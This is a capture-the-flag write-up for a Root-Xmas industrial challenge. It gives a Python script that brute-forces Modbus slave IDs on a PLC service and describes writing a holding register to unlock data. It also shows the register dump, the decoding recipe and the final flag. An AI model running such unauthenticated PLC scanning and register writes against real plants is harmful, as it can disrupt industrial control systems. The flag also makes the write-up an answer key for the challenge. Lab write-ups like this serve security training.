 ```yaml
---
layout: Post
format: chall
title: Day 16 - Coil under the tree
date: 2024-12-17
ctf: Root-Xmas
tags: [Modbus, PLC]
category: [Industrial]
---
```

# Day 16 - Coil under the tree

<a class="back-link" href="../../">< Go back</a>

## Description

Your are currently connected to internal plant, your objectif will be to extract informations from PLC devices.

The targeted PLC stores important informations in its input registers. But... To get this information you have to:

Scan and find a valid slave ID;

Edit its holding register at address 0x10 with the value 0xff;

Read input registers to get important informations (be quick, you only have 5 seconds to read this data after editing!).

Author : Nishacid

163.172.68.42:10016

all files in [resources/](./resources) were provided.

## Challenge

Find the `slave_id` using brute force:

```py
from pymodbus.client.sync import ModbusTcpClient

def scan_slave_ids(host, port, timeout=1):
    client = ModbusTcpClient(host, port=port, timeout=timeout)
    active_slaves = []

    for slave_id in range(1, 248):
        if client.connect():
            response = client.read_coils(0, 1, unit=slave_id)
            if response.isError():
                print(f"Slave ID {slave_id}: No response or error")
            else:
                print(f"Slave ID {slave_id}: Active")
                active_slaves.append(slave_id)
            client.close()
        else:
            print("Failed to connect to the host.")
            break

    return active_slaves

active_slaves = scan_slave_ids("163.172.68.42", 10016)
print("Active Slave IDs:", active_slaves)
```

We find that the Slave ID `105` is active. Now we need to write `0xff` to it's 10th holding register and read the input registers.

After some trial and error I found that delays were necessary between actions, I put 1s.

The exploit script can be found here [exploit.py](./exploit.py):

```
Connected to Modbus server.

Register 10: 0

Successfully wrote 255 to Register 10.

Register 10: 0

Input Registers from 0 to 124:
Register 0: 81
Register 1: 50
Register 2: 57
Register 3: 117
Register 4: 90
Register 5: 51
Register 6: 74
Register 7: 104
Register 8: 100
Register 9: 72
Register 10: 86
Register 11: 115
Register 12: 89
Register 13: 88
Register 14: 82
Register 15: 112
Register 16: 98
Register 17: 50
Register 18: 53
Register 19: 122
Register 20: 76
Register 21: 67
Register 22: 66
Register 23: 53
Register 24: 98
Register 25: 51
Register 26: 85
Register 27: 103
Register 28: 89
Register 29: 50
Register 30: 70
Register 31: 117
Register 32: 73
Register 33: 72
Register 34: 90
Register 35: 104
Register 36: 98
Register 37: 71
Register 38: 108
Register 39: 107
Register 40: 89
Register 41: 88
Register 42: 82
Register 43: 108
Register 44: 73
Register 45: 72
Register 46: 82
Register 47: 111
Register 48: 97
Register 49: 88
Register 50: 77
Register 51: 103
Register 52: 89
Register 53: 50
Register 54: 104
Register 55: 104
Register 56: 98
Register 57: 71
Register 58: 120
Register 59: 108
Register 60: 98
Register 61: 109
Register 62: 100
Register 63: 108
Register 64: 73
Register 65: 72
Register 66: 100
Register 67: 112
Register 68: 100
Register 69: 71
Register 70: 103
Register 71: 54
Register 72: 73
Register 73: 70
Register 74: 115
Register 75: 110
Register 76: 85
Register 77: 107
Register 78: 49
Register 79: 55
Register 80: 77
Register 81: 84
Register 82: 78
Register 83: 104
Register 84: 90
Register 85: 68
Register 86: 70
Register 87: 105
Register 88: 89
Register 89: 122
Register 90: 74
Register 91: 108
Register 92: 77
Register 93: 106
Register 94: 86
Register 95: 105
Register 96: 78
Register 97: 106
Register 98: 74
Register 99: 57
Register 100: 88
Register 101: 71
Register 102: 52
Register 103: 110
Register 104: 88
Register 105: 81
Register 106: 61
Register 107: 61
Register 108: 0
Register 109: 0
Register 110: 0
Register 111: 0
Register 112: 0
Register 113: 0
Register 114: 0
Register 115: 0
Register 116: 0
Register 117: 0
Register 118: 0
Register 119: 0
Register 120: 0
Register 121: 0
Register 122: 0
Register 123: 0
Register 124: 0

Connection closed.
```

From these results, lets convert this from decimal bytes to the actual chars and do some extra parsing using CyberCher:

```
Find_/_Replace({'option':'Regex','string':'Register \\d+: '},'',true,false,true,false)
Find_/_Replace({'option':'Regex','string':'\\n'},' ',true,false,true,false)
From_Decimal('Space',false)
Find_/_Replace({'option':'Regex','string':'\\0+$'},'',true,false,true,false)
From_Base64('A-Za-z0-9+/=',true,false)
```

And finally we get: `Congratulations, you can validate this challenge with: ['RM{13ad1bc2e25b62}\n']`
